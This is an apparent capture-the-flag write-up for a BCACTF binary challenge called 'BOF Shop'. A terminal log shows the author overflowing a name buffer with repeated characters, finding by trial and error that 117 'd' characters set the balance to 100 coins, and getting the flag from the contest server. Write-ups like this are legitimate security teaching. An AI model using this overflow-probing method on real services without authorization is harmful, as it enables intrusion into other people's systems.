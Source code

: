 ### Chall Desc:
Welcome to the BOF Shop! Now you have the chance to buy your own flag! All you need to do is get a few coins first. Good luck.

### Link of server: nc bin.bcactf.com 49174

### Source_code and binary:
[bof-shop.c](bof-shop.c)
[bof-shop](bof-shop)


### Soln:

The solution is self-explanatory. Since, the amount of money was dependent on the users name, there had to be a particular string assigned 100 coins.  
In this case, it was mapped with their ascii values and hecne `d` was the letter with `117` frequency as the sweet spot.  
I figured this out with hit and trials.

```prg
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ ls
bof-shop
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ echo "bcactf{test_flag}" > flag.txt
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ ls
bof-shop  flag.txt
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ cat flag.txt
bcactf{test_flag}
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python -c "print('A'*200)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Command 'python' not found, did you mean:
  command 'python3' from deb python3
  command 'python' from deb python-is-python3
Your balance: 0 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*200)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 1094795585 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*100)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 0 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*150)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 1094795585 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*125)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 1094795585 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*112)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 0 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('A'*117)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 65 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('z'*117)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 122 coins

Sorry, but you need exactly 100 coins to purchase the flag.
Goodbye.
ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('d'*117)" | ./bof-shop
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 100 coins

Wow. Here, take the flag in exchange for your 100 coins.
bcactf{test_flag}

ckc9759@ckc:/mnt/c/Users/Chaitanya K Chauhan/desktop/binex$ python3 -c "print('d'*117)" | nc bin.bcactf.com 49174
Hello there, welcome to the BOF Shop!
What's your name?
> Your balance: 100 coins

Wow. Here, take the flag in exchange for your 100 coins.
bcactf{buFF3r_0v3rflow_M4D3_3asy_71f7e2}
```

Thank you

